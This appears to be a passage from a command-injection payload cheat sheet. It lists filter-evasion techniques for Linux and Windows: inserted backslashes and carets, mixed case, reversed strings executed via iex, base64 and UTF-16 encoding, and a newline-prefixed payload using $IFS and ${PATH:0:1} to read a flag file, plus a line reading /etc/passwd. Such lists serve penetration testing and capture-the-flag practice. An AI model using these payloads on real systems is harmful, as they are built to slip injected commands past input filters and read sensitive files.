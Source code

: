 ```bash
w\ho\am\i
```
## Windows Only
```cmd
who^ami
```
## Examples
```
%0ac"a"t$IFS${PATH:0:1}home${PATH:0:1}flag${PATH:0:1}flag.txt
```
# Advanced Command Obfuscation
## Case Manipulation
**Windows**
```powershell
WhOaMi
```
**Linux**
```bash
$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```
## Reversed Commands
**Linux**
```bash
echo 'whoami' | rev
```

```bash
$(rev<<<'imaohw')
```
**Windows**
```powershell
"whoami"[-1..-20] -join ''
```

```powershell
iex "$('imaohw'[-1..-20] -join '')"
```
## Encoded Commands
**Linux**
```bash
echo -n 'cat /etc/passwd | grep 33' | base64
```

```shell
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```
